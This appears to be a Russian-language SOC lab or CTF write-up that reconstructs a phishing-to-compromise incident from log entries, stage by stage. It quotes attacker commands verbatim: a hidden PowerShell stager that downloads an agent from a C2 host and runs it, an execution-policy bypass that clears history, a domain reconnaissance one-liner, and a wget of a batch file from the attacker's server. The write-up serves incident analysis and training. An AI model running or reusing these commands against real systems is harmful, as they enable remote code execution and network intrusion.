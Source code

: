# SOC-Enigma

Описание: Система UserGate Log Analyzer зафиксировала зафиксировала подозрительную активность - фишинг с последующей компрометацией хоста

## Этап 1: Фишинг
**Время 3:39** Пользователь получает письмо на сервис Outook, ссылку OneDrive и скачивает **Resume.zip**

```sh
-2022-08-02 03:39:22.234{289a599c-9c69-62e8-6e14-000000001900}9396C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exeC:\Users\Bob\Downloads\Resume.zip2022-08-02 
```

### Этап 2: Зауск файла resume.pdf.exe пользователем и дальнейшее развитие атаки
В 3:39 был запущен файл **resume.pdf.exe**. Данный файл при запуске пытается установить соединение с хостом 192.168.44.57:8888.

```sh
powershell.exe /c Start-Process -FilePath Resume.pdf.exe -ArgumentList '-server http://192.168.44.57:8888 -group red' -WindowStyle Hidden powershell.exe -ExecutionPolicy Bypass -C Clear-History;Clear
```

В 3:54 был создан процесс, который позволяет устанавливать связь с сервером.

```sh
HostApplication=powershell.exe -ExecutionPolicy Bypass -C if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};$server="http://0.0.0.0:8888";$socket="0.0.0.0:7010";$contact="tcp";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","manx.go");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");Get-Process | ? {$_.Path -like "C:\Users\Public\$name.exe"} | stop-process -f -ea $ErrAction;rm -force "C:\Users\Public\$name.exe" -ea $ErrAction;([io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data)) | Out-Null;Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-socket $socket -http $server -contact $contact" -WindowStyle hidden;
```

### Этап 3: Разведка системы
В 3:55 была произведена разведка системы:

```sh
C:\Windows\System32\cmd.execmd.exe /C @echo off&echo ________________________________Whoami______________________________ &  whoami &echo ________________________________HostName______________________________  & hostname  & echo ________________________________IpConfig______________________________ & ipconfig /all  & echo ____________________________AllLocalUsers___________________________ & net user /domain  & echo _________________________AllUserInDomain___________________________ & net group /domain  & echo __________________________DomianAdmins_______________________________ & net group "domain admins" /domain  & echo _______________________ExchangetrustedMembers_______________________ & net group "Exchange Trusted Subsystem" /domain  & echo ________________________NetAccountDomain____________________________ & net accounts /domain  & echo ______________________________NetUser________________________________ & net user  & echo _______________________NetLocalGroupMembers________________________ & net localgroup administrators  & echo ________________________________netstat_______________________________ & netstat -an  & echo ______________________________tasklist________________________________ & tasklist  & echo _____________________________systeminfo_______________________________ & systeminfo  & echo ________________________________RDP___________________________________ & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"  & echo ________________________________Task__________________________________ & schtasks /query /FO List /TN "GoogleUpdatesTaskMachineUI" /V | findstr /b /n /c:"Repeat: Every:"  & echo ________________________________________AntiVirus______________________________ &WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

### Этап 4: Загрузка вредоносного .bat файла

В 4:02 был создан процесс, связанный с файлом **0000000000.bat**, который впоследствии становится файлом **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C "wget http://192.168.44.57:8000/0000000000.bat -OutFile c:\windows\temp\1.bat
```

Также замечен файл **1.log**, который, возможно, создается при работе **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C gc c:\windows\temp\1.log
```


